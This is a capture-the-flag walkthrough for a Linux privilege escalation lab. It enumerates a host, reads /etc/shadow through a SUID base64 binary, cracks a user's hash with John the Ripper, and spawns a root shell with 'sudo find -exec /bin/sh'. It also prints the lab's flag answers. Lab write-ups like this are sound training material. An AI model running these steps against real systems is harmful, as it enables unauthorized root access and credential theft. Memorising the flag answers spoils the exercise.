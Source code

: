 ## Linux Privilege Escalation: Capstone Challenge


## What is the content of the flag1.txt file?

1. Let's gather info first about the machine
```
history
whoami
uname -a
uname -r 
/proc/version
/etc/issue
ps
sudo -l
ls
id
ifconfig
netstat -a
netstat -at
netstat -au
netstat -l 
env
```

![Screenshot 2024-02-12 at 10 52 50 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/93885557-a88e-46b1-afec-ce37ae12a6da)

2. Let's go to /home where we will discover that there are two other users `missy` and `rootflag`. From the history we know that the flag2.txt is in rootflag user. So chances are the `flag1.txt` is in `/home/missy`.

3. Let's first try checking if there is a kernel exploit.

![Screenshot 2024-02-12 at 10 57 42 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/0816430f-bb90-4de7-84c3-25b1230dba59)

Let's make a quick look for a kernel exploit for version. `3.10.0-1160.el7.x86_64`

4. Let's check for sudo rights `sudo -l`. Unfortunately `leonard` has no sudo rights. 
![Screenshot 2024-02-12 at 11 07 07 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2c027c13-d03b-4e63-afc9-2f180c7868a0)

5. Check for SUID privileges.

`find / -type f -perm -04000 -ls 2>/dev/null`

![Screenshot 2024-02-12 at 11 10 10 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/7e65ff32-4be2-47e8-84ed-04bc072516c1)

There are multiple binaries which our current user has SUID access. Let's go to [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid) to check if we can exploit any of these for root access.

We can exploit `base64` to read `/etc/passwd` and `/etc/shadow` and find information about user `missy`. Unfortunately we can't find any info about `rootflag` in these files. 

```bash
LFILE=/etc/passwd
base64 "$LFILE" | base64 --decode
```
**missy:x:1001:1001::/home/missy:/bin/bash**

```bash
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
**missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::**

6. Let's try cracking the password for `missy`. Create a local file `passwd.txt` and `shadow.txt` and copy the content from the target machine.

7. Unshadow the files:
   
   ```bash
   unshadow passwd.txt shadow.txt > passwords.txt
   ```
   
9. Run john the ripper on `passwords.txt`. Where we find that the password for `missy` is **Password1**
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

9. Now on the target machine let's switch user to `missy` and use the password **Password1
```bash
su missy
cd /home/missy/Documents
cat flag1.txt
```

![Screenshot 2024-02-12 at 11 36 34 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/4ae12f6d-b4d0-424f-9526-b129ffe82e1b)

**Answer: THM-42828719920544**


## What is the content of the flag2.txt file?

1. Continuing from what we have done above, the current user is now `missy`. Let's check her privileges by running `sudo -l`
![Screenshot 2024-02-13 at 12 00 14 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/115e5260-e0a4-4719-a074-86f4977579ca)

2. We find out that user `missy` has sudo priviliges for `find`. Looking at [https://gtfobins.github.io/#+sudo](https://gtfobins.github.io/#+sudo), we discover we have sudo exploits for the `find` binary.
![Screenshot 2024-02-13 at 12 04 23 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/b4620444-2758-4034-a842-5c9e403eb604)

3. Let's execute what we have found in GTFObins which will spawn a terminal with root privileges. 
```bash
sudo find . -exec /bin/sh \; -quit
```
![Screenshot 2024-02-13 at 12 06 17 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/eb86560c-67b6-4bb0-b3a2-90ab9eb5462a)

4. Now let's find out the content of `flag2.txt `which is found in `/home/rootflag`

![Screenshot 2024-02-13 at 12 08 15 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/518b0142-04f4-43c8-bb93-848a65b03672)

**Answer: THM-168824782390238**


